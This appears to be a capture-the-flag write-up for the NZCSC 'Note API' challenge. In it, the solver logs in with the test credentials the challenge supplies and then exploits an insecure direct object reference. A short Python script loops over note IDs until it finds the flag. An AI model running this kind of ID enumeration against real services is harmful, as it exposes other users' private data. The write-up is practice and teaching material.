

# C-4: Note API
>NZCSC is working on creating a note taking application.  
The application is available as an API.  
It is however a work in progress, some endpoints are complete while others are not.  
The documentation for the current version of the API can be found [here](noteAPI.md).

*Unfortunately due to the nature of this challenge we are unable to archive it.*
We are given an OpenAPI specification for a note API. The endpoints can all be accessed at `/challenge4/api.php`.
Most requests to this give back `{ "error": "Unauthorized" }` suggesting we need to login first. Conveniently the username and password are provided at the top of the API specification: `Use username=eve, password=letm3in for testing`.
Sending this in the form of a POST request to `/challenge4/api.php/login` in the form of JSON data gives `{ "message": "Login successful" }` and gives us a PHPSESSID cookie to store. 
We can modify our requests to include this by adding the header `Cookie: PHPSESSID=5b46175213f56d5117a5f71bd1146a18; path=/`. 
To test, we can request `/notes` to see a list of all the current user's notes:

These notes have notably (ha) consecutive IDs, which suggests that an IDOR attack (insecure direct object reference) may be possible. We can test this by requesting note 1040, which is not owned by our user. Requesting `/note/1040` gives `{ "id": 1040, "title": "Tech Projects", "content": "Learn Docker" }`. This shows that we are allowed to view notes beyond our own.
It is now a matter of checking more IDs. The script below simply prints the contents of the notes from 1000-1100 (notes below 1000 return `Note not found`):
```python
import http.client

conn = http.client.HTTPSConnection("ctf.nzcsc.org.nz")
payload = ''
headers = {
  'Cookie': 'PHPSESSID=5b46175213f56d5117a5f71bd1146a18; path=/'
}

for i in range(1000, 1100):
  conn.request("GET", "/challenge4/api.php/note/"+str(i), payload, headers)
  res = conn.getresponse()
  data = res.read()
  print(data.decode("utf-8"))
```
and running this shows the flag at ID 1077: `{"id": 1077, "title": "Reading", "content": "FLAG[ABBBB77F699E23DD]" }`.